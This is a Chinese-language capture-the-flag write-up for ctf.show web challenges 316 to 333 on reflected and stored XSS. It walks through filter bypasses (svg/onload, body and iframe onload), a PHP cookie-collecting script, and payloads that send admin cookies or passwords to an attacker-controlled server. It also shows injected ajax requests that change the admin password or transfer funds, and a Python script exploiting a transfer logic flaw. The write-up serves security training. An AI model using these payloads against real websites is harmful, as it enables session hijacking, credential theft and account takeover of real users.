# web-xss

# 反射型xss

## web-316（无过滤）

打开页面发现有个输入框，并从题目可以看到这关为反射性xss



尝试写入`<script>alert(1);</script>`可以弹框



这关的flag藏在admin管理员的cookie中

所以我们在我们自己的云服务器中写一个用来接收cookie的php文件，名为cookie.php

```
<?php
echo 'hello';
if(isset($_GET['cookie'])) {
    $cookie = $_GET['cookie'];
    
    // 过滤和清理用户输入
    $cookie = htmlspecialchars($cookie); // 过滤特殊字符
    // 其他可能的过滤和验证
 
    // 写入文件
    $myfile = fopen('cookie.txt', 'a');
    if ($myfile !== false) {
        fwrite($myfile, $cookie."\n");
        fclose($myfile);
        echo 'Cookie 已成功写入文件。';
    } else {
        echo '无法打开文件进行写入。';
    }
} else {
    echo '未提供 cookie 数据。';
}
?>
```

然后再输入框中输入

```
<script>window.location.href='http://服务器IP/cookie.php?cookie='+document.cookie</script>
```

当这行代码提交后会有类似admin管理员的程序每隔一段时间就查看我们提交的连接，然后就可以拿到admin的cookie，我们服务器端目录内就会生成cookie.txt，flag就在里面

## web-317（script过滤绕过）

使用上一关的payload不行，猜测是过滤了script，尝试了下大小写混合也不行。

试了``能弹窗，但是拿不到cookie

试下`<body οnlοad='alert(1)'>`和`<svg onload='alert(1)'>`发现可以

**onload属性：只要标签被加载就会触发**

**location.href：重定向到指定的url连接**

使用

```
<svg onload="location.href='http://服务器IP/cookie.php?cookie='+document.cookie"/>

或者

<body onload="window.location.href='http://服务器IP/cookie.php?cookie='+document.cookie">
```

## web-318（img，script过滤绕过）

试了一下发现过滤了img和script，继续使用上一关的payload即可

```
<svg onload="location.href='http://服务器IP/cookie.php?cookie='+document.cookie"/>

或者

<body onload="window.location.href='http://服务器IP/cookie.php?cookie='+document.cookie">
```

## web-319（body，script过滤绕过）

试了下发现body又被过滤了，但是svg依然没被过滤，还是可以用`<svg onload='alert(1)'>`

```
<svg onload="location.href='http://服务器IP/cookie.php?cookie='+document.cookie"/>

或者

<iframe οnlοad="document.location='http://服务器ip/cookie.php?cookie='+document.cookie">
```

## web-320（空格过滤绕过）

在之前的基础上又多过滤了空格，这里有好几种绕过方法

%0A换行符，%09（就是空格，这里好像绕过不了），/，/**/

**尝试`<svg/onload='alert(1)'>`成功弹框，**

这里试了下%0A发现不行，/**/可以

```
<svg/onload="window.location.href='http://服务器IP/cookie.php?cookie='+document.cookie">
```

## web-321

用上一题的payload即可

```
<svg/onload="window.location.href='http://服务器IP/cookie.php?cookie='+document.cookie">
```

## web-322（xss过滤绕过）

这题多过滤了一个xss，但是我们之前的payload中没有xss，所以用之前的payload即可

```
<svg/onload="window.location.href='http://服务器IP/cookie.php?cookie='+document.cookie">
```

## web-323-326

一直到326都和上题一样解法

# 存储型xss

## web-327（管理员cookie获取）

要接收管理员的cookie，所以收件人需要是admin才能发送成功



## web-328（管理员cookie获取盗用）

打开发现是一个登录注册界面。



发现有一个用户管理页面，只有管理员可见，管理员可以用它看到所有用户的用户名和密码，所以这里就存在存储型的xss漏洞。



我们在注册时在用户名和密码中插入xss攻击语句，当管理员打开用户管理页面就会触发，我们就能拿到管理员的cookie了

```
<script>window.open('http://服务器IP/cookie.php?cookie='+document.cookie)</script>
```



拿到cookie之后，然后再访问用户管理界面，用burp抓包，将cookie改成admin的cookie

**注意：这里cookie是会变化的，所以要快，而且要用最新的cookie,这里有点恶心，我试了很多次才成功**

**好像在重放器里就不用这么麻烦了。**



## web-329（通过类名查找元素，通过document获取）

依旧利用cookie，这题也能得到cookie，但是cookie一下就会失效,原因是，管理员访问了页面就退出了，相当于现在得到的最新cookie是管理员上一次用的cookie

我们可以通过类名查找元素，通过document来获取

可以看到前端代码中将要显示admin密码的地方类为`layui-table-cell laytable-cell-1-0-1`



```
<script>window.open('http://服务器IP/cookie.php?cookie='+document.getElementsByClassName('laytable-cell-1-0-1')[1].innerHTML)</script>
```

```
window.open('http://ip/' + document.getElementsByClassName('laytable-cell-1-0-1')[1].innerHTML) 这是一个调用 window.open() 函数的语句，用于打开新的浏览器窗口。

'http://ip/' 这是一个字符串，表示要打开的网页的 URL。它包括了协议（http://）、主机名（ip）和端口号（80），以及路径（后面的斜杠 /）。

document.getElementsByClassName('laytable-cell-1-0-1')[1].innerHTML 这是一系列 DOM 操作，用于获取网页中特定元素的内容。

document.getElementsByClassName('laytable-cell-1-0-1') 是一个通过类名查找元素的方法。它查找具有类名'laytable-cell-1-0-1' 的元素，通常这是一种针对表格单元格的选择。

[1] 表示从匹配的元素列表中选择第二个元素（JavaScript 中的数组索引从 0 开始）。

.innerHTML 用于获取选定元素的 HTML 内容，也就是在这个表格单元格中显示的文本或 HTML。
1、innerHTML:
　　从对象的起始位置到终止位置的全部内容,不包括Html标签。
innerText可替代innerHTML
2、outerHTML:
　　除了包含innerHTML的全部内容外, 还包含对象标签本身。
```

其他方法：https://blog.csdn.net/Jayjay___/article/details/133375048

## web-330（xss修改管理员密码（get方法））

这题的登录页面多了个修改密码的功能，这题的思路就是我们注入一个xss，让管理员触发自动修改他的密码，这样我们就能登录了

我们注册一个普通账号，然后再修改密码时抓包

可以看到修改密码文件路径为`/api/change.php?p=`而且这里是使用GET方法来发送数据



所以我们构造payload，并在注册账号中注入

```
<script>window.location.href='http://127.0.0.1/api/change.php?p=2439';</script>

注意这里Ip是127.0.0.1就是本地，因为服务端就在管理员的本地
```

之后登录账号admin，密码2439

得到flag



这时候会出现一种情况，我们在管理员账号上一点击`用户管理`，立马跳转到api，来不及复制flag。这是因为我们的XSSpayload是一个用户账号，管理员每次访问`用户管理`都会解析它。

解决办法：立刻Ctrl+u查看源码或者抓包。

## web-331（xss修改管理员密码（post方法））

修改密码从GET方法变成了POST方法，其他的都没变，将payload修改成post请求即可

jQuery 提供的 Ajax 方法，用于向服务器发送异步 HTTP 请求

```
<script>$.ajax({url:'http://127.0.0.1/api/change.php',type:'post',data:{p:'2439'}})</script>

<script>$.ajax({url:'http://d76df70b-08d6-47a1-9faf-d9582a5e5ff3.node5.buuoj.cn/change',type:'post',data:{'newpassword':'2439'}})</script>
```

url：发送路径，type：发送类型，data：数据

## web-332

这题多了很多功能，比如转账，个人账户，购买flag，从题目来看需要我们有足够的钱才能购买flag

法一：

这道题它代码逻辑有问题，转账的不扣转账方的金额，所以可以一直向自己转账，转的金额不超过自己余额即可（这里可以使用python脚本来写）

方法二：

可以给admin转-10000，这样我们就会+10000（有点离谱）

方法三：

直接让admin转自己10000，和上题让admin自己改密码思路是一样的

使用burpsuite抓转账的请求包



**发现转账的路径为`/api/amount.php`，并且使用POST方法来发送数据`u=mixbp&a=5`**

**构造payload**

```
<script>$.ajax({url:'http://127.0.0.1/api/amount.php',type:'post',data:{u:'mixbp',a:'10000'}})</script>
```

在注册界面注入我们的payload，之后就能看到钱已经到账了

---

同样的原理：

这题也可以在我们的服务器上新建一个js文件名为mixbp.js

写入代码

```
$.ajax({
  url: "http://127.0.0.1/api/amount.php",
  method: "POST",
  data:{
    'u':'mixbp',
    'a':10000
    }
});
```

然后构造payload并在注册界面写入

```
<script>src="http://服务器ip/mixbp.js"</script>
```

## web-333

除了不能转别人-10000之外，其他两种方法都能用，这里用python脚本来写试试

```
import requests
url = "http://c7e62c4c-a965-48a5-9c7a-390114141304.challenge.ctf.show/api/amount.php"
headers ={'Cookie':'PHPSESSID=???'} #自己账号登陆后的sessionid

for i in range(0,10000):
    tmp=i*4
    data = {
        'u': 'mixbp',
        'a': str(tmp)
    }
    res=requests.post(url,data=data,headers=headers)
```
